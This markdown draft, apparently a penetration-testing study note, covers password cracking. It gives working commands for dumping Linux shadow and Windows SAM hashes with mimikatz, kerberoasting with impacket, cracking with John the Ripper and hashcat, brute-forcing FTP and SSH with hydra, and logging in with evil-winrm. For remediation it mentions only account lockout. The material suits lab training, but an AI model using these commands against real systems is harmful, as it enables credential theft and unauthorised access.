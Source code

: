 ```yaml
---
title: Password Cracking Tools and Techniques
summary: Use of different tools to used for cracking password
description: Use of different tools to used for cracking password
slug: '/password-cracking-tools-and-techniques'
tags: ['ethical hacking', 'penetration testing', 'john the ripper', 'hashcat']
draft: true
---
```


## Intro

### Dictionary Attacks

> CeWL (Custom Word List generator) is a ruby app which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers such as John the Ripper.

| Type            | Path                                |
| --------------- | ----------------------------------- |
| John The Ripper | /usr/share/john/password.lst        |
| Rock You        | /usr/share/wordlists/rockyou.txt.gz |

```bash
locate wordlists

gzip -d /usr/share/wordlists/rockyou.txt.gz rockyou.txt
or
gunzip /usr/share/wordlists/rockyou.txt.gz rockyou.txt
```

## Exploration

### Linux

In Linux, the `/etc/passwd` file contains potentially important metadata in the GECOS field, including full name, room number, work phone, home phone, and others. Linux stores password hashes in the `/etc/shadow` file, which is why you need to use the sudo command to view it.

```bash
cat /etc/passwd
sudo cat /etc/shadow
```

The `unshadow` utility combines the /etc/passwd and /etc/shadow files. This is done so that John the Ripper can attempt to crack the password with information from both files, using a single file.

```bash
sudo unshadow /etc/passwd /etc/shadow > combined.txt
```

## Exploitation

### Linux Password

> Kali Linux 2021.1 changed the hash function for passwords from sha512crypt (listed as $6$ in the /etc/shadow file) to yescrypt (listed as $y$ in the /etc/shadow file).

```bash
sudo adduser vulnuser (room number: 8848.86 password vulnuser8848.86)
# [Your First Name] user a password of [Your Second Name] (you will not
# see anything on the screen when you type the password).
# Press ENTER for all the subsequent prompts
# (Full Name, Room Number, Work Phone, Home Phone, and Other) until the
# last prompt, which asks “Is the information correct? [Y/n].
```

#### John The Ripper

> John the Ripper will not attempt to crack a password it has already cracked.

```bash
# By the time you are reading this, support for the $y$ hashes might
# be incorporated into John the Ripper, which would mean you could
# leave off --format=crypt for some speedup
sudo john --wordlist=/usr/share/john/password.lst --format=crypt combined.txt

# See all passwords already cracked.
sudo john --show --format=crypt combined.txt

# To remove remembered password.
sudo rm /root/.john/john.pot

# By default single crack mode, uses the GECOS field, without wordlist.
sudo john --format=crypt combined.txt

sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt combined.txt
```

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 faiz.txt
```

#### hydra

```bash
# Target FTP
hydra -L username.txt -P /usr/share/wordlists/rockyou.txt ftp <target-ip-addr> -vV
  -L username file
  -l username
  -P password file
  -p password

# Target SSH
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target-ip-addr> -vV
```

### Windows Password

Creating user:

- Click the **Start** button or in the search box, type **Computer Management**, and select **Computer Management**. This opens the **Computer Management Console**.
- Expand **Local Users and Groups** in the pane at the left.
- Click **Users** to see all the current local user accounts.
- Right-click on a blank area in the right pane and select **New User**.
- Fill in the fields, creating a four-digit password with just lowercase letters.
- Clear the checkbox next to User Must Change Password At Next Logon and click the **Create**

```powershell
reg save hklm\SAM sam.hiv
reg save hklm\SYSTEM system.hiv

mimikatz
> privilege::debug
> token::elevate

# Send the next command’s output to a text file called hashes.txt:
> log hashes.txt

# Output the usernames and hashes for all accounts on the system:
> lsadump::sam sam.hiv system.hiv
```

e.g. windowshashes.txt

```txt
Beatles:5be2f274f2f80c5d4d0c597f023f4f61::::
StarWars:b7c899154197e8a2a33121d76a240ab5::::
```

#### GetUserSPNs.py

> Note: If there is misconfigured account, we can obtain the credentials from Active Directory using `GetUserSPNs`.

```bash
impacket-GetUserSPNs -dc-ip <dc-ip-addr> <host>.local/<user>:<pass> -request
```

> If error: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` you need to synchronize the host with the Domain Controller time.

```bash
# Download from here https://sourceforge.net/projects/openrdate/
tar -xvzf opendate-1.2.tar.gz

cd opendate
./configure
make
make install
rdate -n <domain-controller-ip>
```

#### John The Ripper

```bash
# Brute force of 4 character.
sudo crunch 4 4 | sudo john --format=NT windowshashes.txt --stdin

sudo john --format=NT windowhashes.txt

sudo john --show --format=NT windowshashes.txt

john --format=krb5tgs --wordlist=password.txt hash.kerberoast
```

#### crackmapexec

```bash
# Generating passwords. e.g. (ADMINISTRATOR1996)
crunch 18 18 -t ^ADMINISTRATOR19%% > passwords.txt

crackmapexec winrm <target-ip-addr> -u Administrator -p passlist
```

#### hashcat

```bash
hashcat -m 13100 --force -a 0 hash.kerberoast password.txt # -m refers to hash type
```

### SSH Pass key

```bash

python /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt ssh_hash.txt
or
john ssh_hash.txt

# Avoid Unprotected Warning
chmod 600 id_rsa

ssh -i id_rsa user@<target-ip-addr>
```

## Window Remote Management (WinRM)

```bash
gem install evil-winrm

evil-winrm -i <target-windows-ip-addr> -u 'admin' -p 'pass'

# PowerShell
Get-ChildItem -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
# Windows Prompt
dir secret.doc /s /p

# Display content of file
type <path>
```

## Remediation

- Account Lockout.
